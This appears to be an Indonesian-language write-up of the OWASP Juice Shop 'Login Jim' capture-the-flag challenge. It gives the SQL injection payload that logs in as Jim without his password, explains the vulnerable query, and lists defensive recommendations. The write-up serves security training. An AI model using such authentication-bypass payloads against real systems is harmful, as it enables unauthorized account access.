


# Login Jim

## Challenge Overview

**Title:** Login Jim

**Category:** SQL Injection (SQLi)

**Difficulty:** ⭐⭐⭐ (3/6)

Tantangan ini membutuhkan eksploitasi kerentanan SQL Injection untuk melewati mekanisme login dan mendapatkan akses ke akun milik **Jim**, tanpa mengetahui password aslinya.

---

## Tools Used

* **Web Browser** → untuk mengakses aplikasi dan melakukan login.

---

## Step by Step Solution

### 1. Temukan Email Jim

Pertama, lakukan pencarian email milik **Jim**. Email ini bisa ditemukan pada **review produk** di halaman aplikasi.
Diketahui email yang digunakan Jim adalah:

```
jim@juice-sh.op
```


---

### 2. Akses Halaman Login

Buka halaman login aplikasi Juice Shop, yang berisi form **Email** dan **Password**.

---

### 3. Lakukan SQL Injection

Masukkan payload berikut ke kolom **Email**:

```
jim@juice-sh.op' OR 1=1--
```

Isi kolom **Password** dengan sembarang nilai, misalnya:

```
jim123
```


---

### 4. Login Berhasil

Setelah menekan tombol **Log in**, sistem akan menerima login sebagai **Jim**, meskipun password salah.
Ini terjadi karena SQL Injection membuat query login selalu bernilai benar.


---

## Solution Explanation

Kerentanan ini muncul karena aplikasi tidak melakukan validasi input dengan baik. Query SQL yang rawan biasanya ditulis seperti ini:

```sql
SELECT * FROM users WHERE email = '$email' AND password = '$password';
```

Jika dimasukkan payload `jim@juice-sh.op' OR 1=1--`, query berubah menjadi:

```sql
SELECT * FROM users WHERE email = 'jim@juice-sh.op' OR 1=1--' AND password = 'aaaa';
```

**Analisis:**

* `jim@juice-sh.op'` → email target.
* `OR 1=1` → kondisi yang selalu benar.
* `--` → komentar SQL, sehingga bagian validasi password diabaikan.

Akibatnya, sistem hanya butuh kecocokan pada email Jim, sementara password dilewati.

---

## Security Recommendations

Untuk mencegah kerentanan SQL Injection pada aplikasi nyata:

1. **Gunakan Prepared Statements / Parameterized Queries**
   Pisahkan data input dari perintah SQL sehingga query tidak bisa dimodifikasi oleh user input.

2. **Validasi Input**
   Pastikan hanya format email valid yang diterima.

3. **Error Handling yang Aman**
   Jangan menampilkan pesan error SQL ke pengguna karena bisa memberi petunjuk tentang struktur database.

4. **Principle of Least Privilege**
   Gunakan user database dengan hak terbatas agar dampak serangan diminimalkan.